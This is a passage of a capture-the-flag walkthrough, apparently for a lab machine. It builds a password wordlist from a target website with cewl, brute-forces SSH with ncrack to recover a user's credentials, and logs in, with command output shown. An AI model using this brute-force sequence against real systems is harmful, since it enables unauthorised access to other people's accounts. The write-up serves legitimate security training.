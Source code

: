 ```bash

<h2>Prologue</h2>
<p>My book is about passion, adventure, drama, war, love, betrayel. I am sure you would like it!</p>

<h2>Table of content</h2>
<ul>
<li><a href="./chapter1.html">Chapter 1</a></li>
<li><a href="./chapter2.html">Chapter 2</a></li>
<li><a href="./chapter3.html">Chapter 3</a></li>
<li><a href="./chapter4.html">Chapter 4</a></li>
<li><a href="./chapter5.html">Chapter 5</a></li>
<li><a href="./chapter6.html">Chapter 6</a></li>
<li><a href="./chapter7.html">Chapter 7</a></li>
<li><a href="./chapter8.html">Chapter 8</a></li>
<li><a href="./chapter9.html">Chapter 9</a></li>
</ul>

</html>
```
Yes! We have quite a lot of texts here! We can create a wordlist with `cewl`!
```bash
╰─ cewl http://10.10.170.245/simeon/ > wl.txt

╰─ wc wl.txt                                                                                                                                    ─╯
 207  213 1588 wl.txt
```

## Foothold - User

Now, let's see if the password for the `SSH` service of this user is inside that wordlist that we created. 
We used `ncrack` to check this, but you can use `hydra` or even `nmap`.

```bash
╰─ ncrack -p 22 -u simeon -P wl.txt 10.10.170.245                                                        ─╯

Starting Ncrack 0.7 ( http://ncrack.org ) at 2022-03-26 20:34 CET

Discovered credentials for ssh on 10.10.170.245 22/tcp:
10.10.170.245 22/tcp ssh: 'simeon' 's[REDACTED]e'

Ncrack done: 1 service scanned in 42.23 seconds.

Ncrack finished.
```
We got it! Let's login in now!
```bash
╰─ ssh simeon@10.10.170.245                                                                              ─╯
simeon@10.10.170.245's password:
Last failed login: Sat Mar 26 20:35:28 CET 2022 from ip-***********.eu-west-1.compute.internal on ssh:notty
There were 206 failed login attempts since the last successful login.
Last login: Sat Mar 26 19:52:51 2022 from ip-***********.eu-west-1.compute.internal
[simeon@aratus ~]$ ls -la
total 20
drwxr-xr-x. 12 simeon   simeon 4096 Jan 10 14:06 .
drwxr-xr-x.  5 root     root     54 Nov 23 17:24 ..
lrwxrwxrwx.  1 simeon   simeon    9 Nov 23 10:48 .bash_history -> /dev/null
-rw-r--r--.  1 simeon   simeon   18 Apr  1  2020 .bash_logout
-rw-r--r--.  1 simeon   simeon  193 Apr  1  2020 .bash_profile
```